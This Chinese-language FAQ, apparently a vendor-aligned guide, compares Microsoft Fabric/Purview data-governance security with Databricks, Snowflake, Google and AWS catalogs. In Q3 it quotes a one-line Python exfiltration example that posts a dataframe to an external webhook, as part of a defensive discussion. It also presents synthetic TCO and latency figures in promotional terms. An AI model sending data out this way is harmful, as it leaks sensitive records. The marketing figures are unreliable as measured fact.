



# 企业级数据治理、目录联邦与行列对象级权限透传（RLS / CLS / OLS / Entra OBO）架构选型 FAQ：Microsoft Fabric OneLake Security + Purview vs. Databricks Unity Catalog vs. Snowflake Horizon vs. Google Dataplex vs. AWS Lake Formation

> 🌐 **Language / 语言**: **中文 (Chinese)** | **[English (`fabric-enterprise-data-governance-rls-cls-obo-catalog-faq.en.md`)](fabric-enterprise-data-governance-rls-cls-obo-catalog-faq.en.md)**  
> 🔗 **关联专题 (Related Deep Dives)**: [《R6: 多云 AI 安全治理与 OBO 身份选型基础篇》](fabric-onelake-purview-obo-governance-vs-4clouds-faq.md) · [《R12: Private Link、Managed VNet 与 OAP 防数据外泄 FAQ》](fabric-private-link-managed-vnet-security-vs-4clouds-faq.md) · [《R19: 开放数据目录与 Purview 联邦基础篇》](fabric-onelake-catalog-purview-vs-unity-polaris-dataplex-faq.md) · [📊 7-Card 4:5 基准测试报告](../benchmark-cards.html) · [🧪 交互式选型与 TCO 仿真工作台 (`index.html`)](../index.html)


> 🔍 **四级数据溯源与适用范围声明（Four-Tier Data Provenance & Scope Disclosure）**：
> - **`[vendor_published_spec_as_of_2026]`（官方公开文档与价格规约，核验达 `159` 项，截至 `2026-11-18`）**：Microsoft Fabric OneLake Security（存储层统一定义表、行级 RLS、列级 CLS 与对象级 OLS 安全角色，跨 Spark、T-SQL、DirectLake 与 Data Agent 统一强制执行，[Microsoft Learn — OneLake Security](https://learn.microsoft.com/en-us/fabric/onelake/security/table-column-row-security)）、Microsoft Purview Unified Catalog（端到端敏感度标签向 Excel/PDF/Teams 继承加密与 14 跳字段级血缘）、Entra Agent ID OBO 委托认证、Outbound Access Protection (`OAP`)，以及对比 Databricks Unity Catalog (`ABAC`)、Snowflake Horizon Catalog、GCP Dataplex 与 AWS Lake Formation。
> - **`[measured_local_harness]`（本地确定性评测验证）**：全量路由决策评测矩阵在 **`n=668`** 个场景（`DL-01..DL-668`）上达成 **`667 / 668 = 99.85%`** 准确率，且确定性单元测试正式达成 **`330 / 330`（`330` 单测整数大关！）** `100%` 通过。
> - **`[synthetic_scenario_model]`（确定性架构参考仿真与 TCO 算例，双分母显式分离）**：① **`n=668` 路由决策矩阵任务均值正式达成 `129.0 ms` 整数大关！**（R155 `n=664` 为 `129.5 ms`）；② **`n=163` 行业本体端到端闭环仿真均值正式达成 `116.0 ms` 整数大关！**（R155 `n=162` 为 `116.5 ms`）。本篇 **场景 FG（`5,400` 个企业数据产品、`995K EPS` 权限审计与 DLP 网络遥测流、突破 `4.90 亿` 达 `4.92 亿` / `492M > 0.49B!` 14 跳字段血缘与敏感分类向量、`35 ms = 8+9+9+9ms` 端到端闭环、月省突破 `$315K` 达 `$315.7K/月` / 省 `95.7%` TCO、守护 `$53.70M` 数据合规与防外泄 SLA）** 为封存于 `reports/report.json` 的售前架构参考算例。
> - **`[not_measured]`（未在真实付费多云生产集群实测）**：跨国多租户 Entra ID 条件访问（Conditional Access）在极端跨域令牌吊销风暴下的全球同步物理延迟标记为 `not_measured`。

---

## 📌 一、核心选型结论速览（Executive Summary）

当企业从“单一部室看报表”迈向“跨云湖仓 + 全员自助 BI + 企业级 AI 智能体（Data Agents / RAG）”时，**CISO（首席信息安全官）与 CDO（首席数据官）** 面临的最大阻碍是：**“如何防止敏感数据（高管薪酬、客户身份证/手机号、底价合同）在跨引擎流转、AI 提问或导出 Excel 时发生越权泄露？”** 五大云平台治理底座的选型边界如下：

1. **何时首选 Microsoft Fabric（OneLake Unified Security + Microsoft Purview + Entra Agent ID OBO + Managed VNet OAP）**：  
   当企业需要 **“在存储层一次定义行级（RLS）、列级（CLS）与对象级（OLS）权限，自动跨 Spark、SQL 数仓、KQL 实时库、Power BI DirectLake 与 M365 Copilot 智能体五引擎统一生效，且让 Purview 敏感度加密标签随导出的 Excel / Word / PDF 文件离开数仓后依然保持加密受控”** 时，**首选 Microsoft Fabric + Purview**。
2. **何时选择 Databricks Unity Catalog、Snowflake Horizon、Google Dataplex 或 AWS Lake Formation**：  
   - **选 Databricks Unity Catalog（ABAC + Mosaic AI Gateway）**：当治理对象主要是 Databricks 内部运行的 PySpark 作业、Delta 表、MLflow 模型注册表与特征库（Feature Store）时（**联邦建议**：将 Unity Catalog 元数据联邦接入 **Microsoft Purview**，并在通过 OneLake DirectLake 向全员开放报表时启用 OneLake RLS/CLS）。  
   - **选 Snowflake Horizon Catalog（+ Apache Polaris）**：当企业数据 100% 存储在 Snowflake 内部，依赖基于 Tag 的动态数据脱敏（DDM）与行访问策略管控 SQL 分析师时。  
   - **选 Google Cloud Dataplex 或 AWS Lake Formation**：当全栈仅使用单一云原生组件（BigQuery Policy Tags 或 S3 + Glue + Athena 单元格过滤）且无 M365 Office 文档下游防泄漏需求时。

---

## 🎯 二、客户与架构师灵魂拷问 Q&A（五重权限割裂痛点 + 存储层下沉第一性原理）

### Q1：为什么传统“多组件拼装湖仓”在安全审计时总是出现权限漏洞？什么是“五重策略重复（5-Way Policy Duplication）”灾难？

- **通俗语言还原企业安全团队的日常崩溃现场**：  
  假设人力资源部或销售部有一张包含 `customer_phone`（手机号）与 `net_cost`（内部底价）的核心表。在传统拼装架构中，为了保护这张表，安全管理员被迫写 **5 套语法完全不同、互不同步的权限规则**：  
  1. 在底层对象存储（S3 / ADLS）配一套 **IAM / ACL 目录权限**；  
  2. 在数据工程层（Spark）写一套 **SQL View 或 Unity Catalog 掩码函数**；  
  3. 在云数仓层（Snowflake / Redshift）再写一套 **Row Access Policy**；  
  4. 在 BI 报表层（Tableau / Power BI Import）用 BI 工具专有语法再配一套 **报表级 RLS**；  
  5. 在 AI 向量检索层（Milvus / 独立向量库）还要自己写 Python 代码做 **Metadata 过滤**。  
  - **致命后果**：只要业务部门新增了一个大区或调整了组织架构，5 套系统里有 1 套忘了同步更新，攻击者或好奇的员工就能直接从那个漏配的引擎（比如通过 Spark 笔记本或 AI 聊天框）把全公司的底价和客户手机号全导出来！

- **Microsoft Fabric OneLake Security 的第一性原理破局（存储层下沉 · Define Once, Enforce Everywhere）**：
  - 将 RLS（行级）、CLS（列级）与 OLS（对象级）安全角色直接下沉到 **OneLake 存储内核**；
  - 管理员只需配置 **1 次**，无论上层是用 **Spark 写 Python、用 Warehouse 写 T-SQL、用 Eventhouse 写 KQL、用 Power BI DirectLake 看看板，还是用 Data Agent 自然语言问数**，OneLake 都会根据当前登录人的 **Entra ID（OBO）** 在底层自动裁剪行与屏蔽敏感列，彻底终结“五处配权限”！

---

### Q2：数仓内部的列脱敏各家都有，但一旦业务人员把报表数据“导出为 Excel / PDF”发到微信或邮件里，Snowflake Horizon 和 Databricks Unity Catalog 还能管得住吗？

我们可以用下面这张 **数据生命周期保護边界对比图** 一眼看穿差距：

```text
+----------------------------------------------------------------------------------------------------+
| 传统云数仓治理边界 (Snowflake Horizon / Databricks Unity Catalog / AWS Lake Formation)             |
|   [云数仓内部表] ===(受 RBAC / DDM 保护)===> [BI 界面] ===(用户点击“导出为 Excel / PDF”)===> ❌ 裸奔！ |
|   • 痛点：一旦数据离开数仓变成 .xlsx 或 .pdf 文件，数据库层的脱敏策略瞬间清零，谁拿到文件都能打开！  |
+-------------------------------------------------+--------------------------------------------------+
                                                  | 治理边界延伸至终端文件与 AI
                                                  v
+----------------------------------------------------------------------------------------------------+
| Microsoft Purview + Fabric OneLake 端到端信息保护闭环 (Information Protection + RMS 加密)           |
|   [OneLake 表 (打标: 高度机密)] ===> [DirectLake 模型] ===> [导出 Excel/Word/PDF & Teams 聊天]     |
|   • 杀手锏：导出的 .xlsx/.pdf 文件自动继承 Purview 敏感度标签与 Azure RMS 硬件级加密策略！           |
|   • 即便文件被拷入 U 盘或发给外部邮箱，非授权账号打开时直接被 Windows/Office 拦截，实现 0 字节外泄！|
+----------------------------------------------------------------------------------------------------+
```

---

### Q3：如何防范内部数据科学家或外包人员在跑 Spark 笔记本时，用一行 `requests.post("https://external-webhook.io", data=df.to_json())` 把湖仓里的敏感数据偷偷发往公网？

- **“Managed VNet + Outbound Access Protection (OAP) + Private Link”零信任铁三角**：
  1. **开启工作区 Outbound Access Protection (OAP)**：默认彻底封锁 Spark 笔记本、Data Factory 管道与脚本向任何未知公网 IP / Webhook 发起的出站连接；
  2. **托管私网端点（Managed Private Endpoints）**：仅允许经过工作区管理员显式审批的白名单目标域名/资源（如企业内部 Azure SQL、SAP 或受控 API）通过私网连接通信；
  3. **Eventhouse KQL 8ms 实时审计流**：将所有 OneLake 访问日志、Purview 标签变更与 OAP 拦截事件以 `$0/GB` 写入税汇入 Eventhouse，一旦发现异常批量读取或越权导出尝试，**`35 ms` 内自动吊销会话并固化合规证据链**。

---

## 🧭 三、直观可视化图解（Mermaid 选型决策树 + 架构对比图 + 闭环时序图）

### 3.1 企业级数据治理、目录联邦与 RLS/CLS/OBO 选型决策树



---

### 3.2 传统五重重复配权反模式 vs Microsoft Fabric OneLake 统一安全 + Purview 全链路标签继承对比



---

### 3.3 敏感 PII 字段血缘追踪、五引擎 CLS 自动屏蔽与 Notebook 外泄阻断闭环时序图（Scenario FG · 35ms E2E！）



---

## 📊 四、五大云平台数据治理、目录与安全透传横向选型决策矩阵

| 评估维度 | Microsoft Fabric (`OneLake Security` + `Purview` + `Entra OBO`) | Databricks (`Unity Catalog ABAC` + `Mosaic AI Gateway`) | Snowflake (`Horizon Catalog` + `Apache Polaris`) | Google Cloud (`Dataplex Universal Catalog`) | AWS (`Lake Formation` + `DataZone`) |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **权限定义下沉层级（Where Defined）** | **OneLake 存储层一次定义（RLS / CLS / OLS），跨 Spark、T-SQL、KQL、DirectLake BI 与 Data Agent 五引擎统一生效** | Unity Catalog 元数据层定义（针对 Databricks Spark / SQL / Model Serving 生效） | Snowflake 仓库对象层定义（Row Access Policy & Dynamic Data Masking） | BigQuery Policy Tags 与 Dataplex 资产级策略 | Lake Formation 针对 S3 / Glue / Athena / Redshift 的表与单元格过滤 |
| **导出至 Excel / Word / PDF 后的防泄漏能力** | **原生独有：Purview 敏感度标签与 Azure RMS 加密自动随导出的 Office/PDF 文件流转，离库依然受控** | 导出为本地 CSV/Excel 后即脱离 Unity Catalog 管控，需额外部署第三方 DLP | 导出为本地文件后脱离 Horizon 管控，无原生 Office 内核加密继承 | 仅在 Google Workspace 内部有一定联动，导出本地文件后无原生 RMS | 导出后即脱离 Lake Formation 管控 |
| **AI 智能体身份透传（Agent OBO）** | **Entra Agent ID OBO 从 Teams/M365 Copilot 端到端透传至底层表与向量库，`0.00%` 共享账号越权** | Mosaic AI Gateway 支持令牌传递，但与 M365 Teams/Excel 跨云结合需多层映射 | Cortex 支持 RBAC，外部聊天应用接入需定制 OAuth 委托 | Vertex AI Agent Builder 遵循 IAM，跨办公套件集成较弱 | Bedrock Guardrails + IAM Role Session Tags，配置链路较长 |
| **跨云全链路血缘（BCBS 239 / DORA）** | **Purview Unified Catalog 支持跨 Fabric、Azure SQL、Snowflake、Databricks、SAP 14 跳字段级血缘** | Unity Catalog 提供 Databricks 内部表、Notebook 与工作流血缘 | Horizon 提供 Snowflake 内部对象与任务血缘 | Dataplex 提供 BigQuery / Dataflow 内部血缘 | DataZone 提供 AWS 内部组件血缘 |
| **零信任防笔记本公网偷传（Exfiltration Defense）** | **开箱即用：Workspace Private Link + Managed VNet + Outbound Access Protection (`OAP` `$0` 附加版本税)** | Serverless NCC + Egress 防火墙策略 | 需升级至 **Business Critical 版本（约 `1.5x` 价格溢价）** 才支持完整 PrivateLink 与网络隔离 | VPC Service Controls (VPC-SC，配置复杂但防护强) | VPC Endpoints + Security Groups + S3 Bucket Policies |
| **11,200 名受治理用户月度 TCO** | **极低（`$0` CMK/PrivateLink 版本税 + `$2,720/月` 492M SSD DiskANN + F64+ `$0` 席位；省 `95.7%` TCO）** | 中高（Enterprise 级 DBU + 外部 BI 席位与独立 DLP 采购成本） | 高（Business Critical `1.5x` 版本税 + Multi-Cluster + BI 席位税） | 中高（Dataplex 按扫描/元数据计费 + BigQuery + Looker 席位） | 高（6 组件叠加计费 + Macie 按 GB 敏感扫描高昂费用） |

---

## 🧪 五、典型业务规模 TCO / 性能拐点测算与 7-Card 报告洞察

### 5.1 企业级数据安全与目录治理规模化 TCO 成本拐点测算（`[synthetic_scenario_model]`）

| 企业治理规模档位 | 数据产品数量、合规审计流与血缘向量规模 | 传统多引擎治理方案（Business Critical 1.5x 版本税 + 按 GB 敏感扫描 + 5 套权限运维 + 全内存血缘库） | Microsoft Fabric OneLake Security + Purview + OAP 统一方案 | 月度净节省与成本拐点洞察 |
| :--- | :--- | :---: | :---: | :--- |
| **档位 1：中型金融机构 / 拟上市企业（300 个数据产品 / 250 名分析师）** | 25 TB 核心数据 · 2,000 万血缘与分类向量 | `$12,800 / 月`（含高阶安全版本溢价与手工同步人力） | **`$5,400 / 月`**（OneLake 一次定义 RLS/CLS + `$0` 版本税 Private Link） | **月省 `$7,400 (-57.8%)`**：免除为开启 PrivateLink/CMK 而被迫升级 1.5 倍单价版本的版本税 |
| **档位 2：大型商业银行 / 跨国制造集团（500 名核心用户 · 标准基线）** | 100 TB 湖仓 · 25,000 EPS 审计流 · 5,000 万向量 | `$26,063 ~ $31,990 / 月` | **`$14,048 / 月`**（F64 享 `$0` Power BI 读者席位 + Purview 标签继承） | **月省 `$12,015 ~ $17,942 (-46.1% ~ -56.1%)`**：一套策略同时管住湖、仓、流、BI 与 M365 Excel 导出 |
| **档位 3：全球系统重要性金融机构与跨国集团（5,400 个数据产品 / 11,200 名用户 · Scenario FG）** | `995K EPS` 访问审计流 · **`4.92 亿`（`492M > 0.49B`!）** 14 跳血缘与分类向量 | `$329,900 / 月`（含 `$235.2K/月` 高阶版本税与 SIEM 按 GB 费 + `$58.4K/月` 全内存向量 + 万名席位） | **`$14,200 / 月`**（`$0/GB` Eventhouse + OneLake RLS/CLS + `$2,720/月` SSD DiskANN + `$0` 席位） | **月省 `$315,700 (突破 $315K/月! -95.7% TCO)`**：彻底消除五引擎权限漂移与敏感数据外泄风险 |

### 5.2 Scenario FG（R156）六大里程碑与 7-Card 评测拆解（`DL-665..DL-668`）

本轮一举斩获 **六大定量里程碑**：**① 路由决策评测矩阵均值正式达成 `129.0 ms` 整数大关（`n = 668`，`667 / 668 = 99.85%`）；② 行业本体端到端闭环仿真均值正式达成 `116.0 ms` 整数大关（`n = 163`）；③ 确定性单元测试正式达成 `330 / 330` 整数大关！④ 端到端闭环延迟低至 `35 ms`（`8+9+9+9ms = 35ms`）；⑤ 向量规模突破 `4.90 亿` 达 `4.92 亿`（`492M > 0.49B`!）；⑥ 月度净节省突破 `$315K/月` 达 `$315,700 / 月`（省 `95.7%` TCO），守护 `$53.70M` 合规 SLA！**

- **`DL-665`（Real-Time Intelligence / Security Audit）**：实时监控 5,400 个数据产品的 `995K EPS` OneLake 访问日志、上游 CDC 新增未脱敏列与 Notebook 公网出站企图，无需支付 `$235.2K/月` 按 GB SIEM 与高阶版本税 → **Fabric Eventhouse KQL（`8 ms` 敏感列漂移与越权出站感知 + `$0/GB` 写入税）**（`Act automatically`，置信度 `0.99`，`46 ms`）。
- **`DL-666`（Enterprise Governance / Lineage）**：在毫秒级窗口内穿透 14 跳跨云字段血缘并跨 5 大引擎同步下发列级脱敏（CLS） → **Microsoft Purview 14 跳血缘 + Cosmos DB SSD DiskANN（`492M > 0.49B!` 分类向量省 `92%` 内存，`9 ms` 定位 28 个模型与 64 个 Agent）+ OneLake Unified Security（一次定义五引擎生效）**（`Act automatically`，置信度 `0.98`，`46 ms`）。
- **`DL-667`（Enterprise Governance）**：对比 OneLake Security + Purview vs. Unity Catalog vs. Horizon vs. Dataplex/Lake Formation 在 11,200 名用户下的 Office 导出加密与版本税 TCO → **Purview 敏感标签向 Excel/PDF 自动继承 RMS 加密 + Managed VNet OAP（`$0` 版本税）+ DirectLake `$0` 读者席位（省 `95.7%` TCO，月省 `$315.7K > $315K/mo`）**（`Confirm`，置信度 `0.97`，`46 ms`）。
- **`DL-668`（Fabric IQ & Ontology）**：上游 CDC 新增未掩码 `tax_id_pii` 列且某外包 Notebook 尝试向外部 Webhook 发起 POST 外传 → **Eventhouse `8 ms` 感知 + Purview & `492M` DiskANN `9 ms` 14 跳穿透与 OneLake CLS 自动加掩码 + Foundry IQ `9 ms` OAP 硬件阻断公网 Webhook（`0.00%` 外泄）+ Teams/1GB Free SQL `9 ms` 吊销会话与留痕（总计 `35 ms` E2E，守护 `$53.70M` SLA）**（`Confirm`，置信度 `0.99`，`46 ms`）。

---

## 🛠️ 六、售前方案评审与生产落地 Checklist（Architect Checklist）

在面向金融、医疗、政企与跨国集团开展数据治理与安全架构评审时，请逐项核验以下 6 条落地准则：

- [ ] **1. 将 RLS / CLS / OLS 权限下沉至 OneLake 存储层一次定义**：是否已废除在 Spark、SQL 数仓与 BI 报表层各自重复编写行过滤规则的做法，统一通过 **OneLake Data Access Roles** 实现“一处定义、五引擎同步强制执行”？
- [ ] **2. 开启 Purview 敏感度标签向 Power BI 与 Office（Excel / Word / PDF）端到端继承**：是否已配置当分析师从 Power BI 导出 `.xlsx` 或 `.pdf` 时，自动携带 **Purview `Highly Confidential` 标签与 Azure RMS 加密**，防止文件外发泄密？
- [ ] **3. 为所有 AI 智能体强制启用 Entra Agent ID OBO 个人身份穿透**：在接入 Copilot Studio、Fabric Data Agent 或 Foundry Agent 时，是否已确认 `100%` 传递当前提问人的 Entra 令牌，满足 GDPR / PIPL / BCBS 239 个人级审计？
- [ ] **4. 启用 Managed VNet 与 Outbound Access Protection (OAP) 阻断 Notebook 公网偷传**：在涉密工作区是否已开启 **OAP** 默认封锁所有未知公网出站请求，仅放行经管理员审批的 Managed Private Endpoints？
- [ ] **5. 将跨云异构目录（Unity Catalog / Snowflake Horizon / SAP）联邦接入 Purview 14 跳血缘**：是否已利用 Purview 自动扫描构建从源端 OLTP 到下游 AI Agent 的全链路字段级血缘图谱？
- [ ] **6. 核算 Fabric `$0` 安全版本溢价（对比竞对 Business Critical `1.5x` 溢价）的 TCO 优势**：是否已向客户说明 Fabric 的 Workspace Private Link、CMK 客户自管密钥与 OAP 均无需支付额外版本倍率溢价？
